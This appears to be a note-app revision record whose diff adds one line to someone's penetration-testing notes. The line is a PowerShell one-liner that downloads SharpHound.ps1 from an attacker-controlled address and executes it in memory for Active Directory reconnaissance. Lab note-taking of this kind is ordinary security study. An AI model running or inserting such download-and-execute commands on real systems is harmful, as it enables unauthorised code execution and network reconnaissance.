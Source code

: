 id: 24301b97268449e4899fbfba9417579f
parent_id: 6f45f16599c64045a68b5bc76218b1bb
item_type: 1
item_id: 9edf38372dec441196b29dc795906939
item_updated_time: 1650558226574
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"method\\\n\\\n\"],[1,\"> powershell -nop \\\"IEX(New-Object System.Net.WebClient).downloadString('http://192.168.119.168:5001/SharpHound.ps1')\\\"\\\n\\\n\"],[0,\"# On Kal\"]],\"start1\":343,\"start2\":343,\"length1\":16,\"length2\":135}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-21T16:33:31.452Z
created_time: 2022-04-21T16:33:31.452Z
type_: 13